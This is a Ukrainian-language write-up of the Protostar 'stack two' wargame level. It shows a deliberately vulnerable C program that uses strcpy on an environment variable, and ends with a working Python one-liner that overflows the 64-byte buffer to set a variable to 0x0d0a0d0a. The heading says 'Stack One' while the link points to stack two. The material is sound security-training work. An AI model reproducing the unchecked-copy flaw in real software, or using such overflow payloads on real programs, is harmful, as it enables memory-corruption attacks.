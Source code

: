 ## [Stack One](http://exploit.education/protostar/stack-two/)

На даному рівні розглядаються змінні середовища та те, як їх можна встановити.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Тут ми маємо схожу ситуацію до Stack1. Але є дві великі відмінності. По-перше, ```strcpy()``` використовує змінну, яка походить із створеної змінної середовища ```GREENIE```. 
По-друге, шістнадцяткові значення 0x0d та 0x0a відповідають поверненню каретки та новому рядку відповідно, які ми не можемо ввести у вигляді символів (наприклад, як 'abcd' у Stack1).

Змінну оточення можна легко задати, використовуючи команду ```export```:  
```export GREENIE=test_env```

Для перевірки можна використати наступну команду:  
```env | grep GREENIE```

У тому числі змінну оточення можна задати використовуючи код python:
```export GREENIE=$(python -c "print('python_test_env')")```

Стосовно другої проблеми, то можна просто використовувати формат '\x0d', який є у python.

Отже, маємо:  
```export GREENIE=$(python -c "print('a' * 64 + '\x0d\x0a\x0d\x0a'[::-1])"); ./stack2```